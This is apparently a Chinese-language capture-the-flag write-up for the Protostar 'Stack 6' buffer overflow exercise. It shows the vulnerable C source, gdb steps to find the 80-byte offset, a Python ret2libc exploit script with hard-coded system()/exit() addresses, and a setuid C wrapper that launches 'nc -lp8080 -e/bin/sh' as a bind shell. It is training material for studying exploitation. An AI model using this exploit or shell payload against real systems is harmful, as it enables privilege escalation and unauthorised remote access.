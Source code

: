 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行TTE="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

export TTE="whoami"

获取环境变量地址的c代码如下：

getaddress.c

![](/png/34.png)

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

```
            char \*ptr;

            if\(argc &lt; 3\) {

                            printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                            exit\(0\);

            }

            ptr = getenv\(argv\[1\]\); /\* get env var location \*/

            ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

            printf\("%s will be at %p\n", argv\[1\], ptr\);
```

![](/png/35.png)

stack6.py 的脚本如下：

![](/png/36.png)

根据反馈信息，地址做了微调。程序最后返回root.

那么，现在做一下验证，再把TTE环境变量改回"/bin/sh"试，不好用。为了得到一个shell，我们采用将环境变量设置为可以反弹shell的nc程序。

在/tmp目录下编写nc.c

\#include &lt;stdlib.h&gt;



int main\(int argc, char \*\*argv, char \*\*envp\) {

    setuid\(0\); // These two are necessary, as system\(\) drops privileges

    setgid\(0\);

    char \*args\[\] = {  "nc", "-lp8080", "-e/bin/sh", \(char \*\) 0 };

    execve\("/bin/nc", args, envp\);

}



ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

